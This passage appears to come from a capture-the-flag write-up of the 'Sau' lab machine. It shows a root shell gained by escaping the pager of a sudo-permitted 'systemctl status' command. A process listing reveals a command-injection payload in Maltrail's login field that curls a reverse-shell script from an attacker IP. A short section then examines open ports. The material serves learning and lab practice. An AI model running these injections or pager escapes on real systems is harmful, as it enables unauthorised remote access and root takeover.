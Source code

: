 ```bash
(remote) puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Tue 2023-07-11 16:34:32 UTC; 18h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 874 (python3)
      Tasks: 11 (limit: 4662)
     Memory: 123.4M
     CGroup: /system.slice/trail.service
             ├─ 874 /usr/bin/python3 server.py
             ├─2642 /bin/sh -c logger -p auth.info -t "maltrail[874]" "Failed password for ;`curl 10.10.14.162/rev>
             ├─2643 /bin/sh -c logger -p auth.info -t "maltrail[874]" "Failed password for ;`curl 10.10.14.162/rev>
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)

```

Similarly, I can get a shell by invoking `bash` or `sh`

```bash
!bash
root@sau:/opt/maltrail# id
uid=0(root) gid=0(root) groups=0(root)
root@sau:/opt/maltrail# cd /root
root@sau:~# ls -al root.txt
-rw-r----- 1 root root 33 Jul 11 16:35 root.txt
```

**Pwned**



## Beyond root

I was curious how how both port 80 and port 8443 returned the same site via SSRF, so decided to dig into that. Interestingly port 80 isn't open, only port 8443 is. This is strange since my exploits were based off of port 80.

```bash
(remote) root@sau:/opt/maltrail# ss -antlp
State   Recv-Q   Send-Q     Local Address:Port      Peer Address:Port  Process
LISTEN  0        5                0.0.0.0:8338           0.0.0.0:*      users:(("python3",pid=874,fd=3))
LISTEN  0        4096       127.0.0.53%lo:53             0.0.0.0:*      users:(("systemd-resolve",pid=833,fd=13))
LISTEN  0        128              0.0.0.0:22             0.0.0.0:*      users:(("sshd",pid=886,fd=3))
LISTEN  0        4096                   *:55555                *:*      users:(("rbaskets",pid=3109,fd=3))
LISTEN  0        128                 [::]:22                [::]:*      users:(("sshd",pid=886,fd=4))
```
